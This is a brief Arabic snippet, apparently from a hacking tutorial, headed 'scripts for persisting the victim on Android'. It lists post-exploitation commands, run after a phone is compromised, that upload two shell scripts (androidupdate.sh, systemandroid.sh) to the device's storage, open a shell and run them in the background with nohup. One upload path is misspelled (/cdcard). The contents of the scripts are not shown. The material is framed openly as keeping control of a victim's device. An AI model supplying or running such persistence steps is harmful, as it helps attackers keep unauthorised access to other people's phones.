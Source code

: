 سكريبتات لتثبيت الضحية 
للاندرويد
بعد اختراق الضحية نقوم برفع السكريبت عبر بالاوامر التالية - وتشغيله

upload '/root/Desktop/androidupdate.sh' /sdcard

upload '/root/Desktop/systemandroid.sh' /cdcard

shell

cd sdcard

nohup sh androidupdate.sh

nohup sh systemandroid.sh
